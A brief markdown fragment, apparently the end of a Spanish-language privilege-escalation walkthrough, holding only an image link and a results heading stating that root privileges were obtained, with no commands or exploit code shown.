

## Resultado

Hemos obtenido privilegios de root.
